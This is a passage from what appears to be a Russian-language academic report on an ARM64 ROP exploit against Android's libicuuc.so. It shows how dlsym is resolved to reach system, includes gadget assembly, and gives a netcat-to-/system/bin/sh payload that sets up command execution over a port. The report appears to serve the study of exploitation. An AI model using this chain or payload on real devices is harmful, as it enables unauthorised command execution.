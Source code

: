 При этом в массив функций для **u_cleanup_60** добавился адрес функции **dlsym**, адрес которой относительно базового адреса libicuuc.so может быть найден через relocation table, как представлено на рис. 3.10

![](https://github.com/IgorKurylev/arm_rop_report/blob/master/pics/dlsym_adr.png)

Рис. 3.10 нахождение адреса **dlsym**

На рис. 3.11 приведено наполнение буфера с гаджетами на данном этапе (показано, что buf указывает сам на себя, *buf указывает на buf, system\0 - расположение строки "system\0", *system\0 указывает на нее)

![](https://github.com/IgorKurylev/arm_rop_report/blob/master/pics/dlsym_buffer.png)

Рис. 3.11 наполнение буфера с гаджетами для вызова **dlsym** (для каждого гаджета отдельным цветом выделены адреса в буфере, которые он использует)

В результате в X6 запишется адрес **system** и останется только вызвать эту функцию со следующей полезной нагрузкой:

```python
port = randint(10000, 65535)
# открытие порта port на прослушивание и исполнение команд, поступающих через порт 4444
payload += "cat /dev/zero | toybox nc -l -p %d | /system/bin/sh 2>&1 | toybox nc 127.0.0.1 4444 | toybox nc 127.0.0.1 %d > /dev/null\x00" % (port, port)
```

### Вызов system

После вызова **dlsym** деструктор **u_cleanup_60** итерируется далее и передает управление гаджету 6:

```asm
0x000000000008e1d0: ldr x0, [x19, #0x20]; подготовка X0 для следующих этапов
                    ldr x8, [x0]; 
                    ldr x8, [x8, #0x20]; загрузка в x8 адреса гаджета 7
                    blr x8; переход на гаджет 7
``` 
Гаджет 6 (подготовка X0)
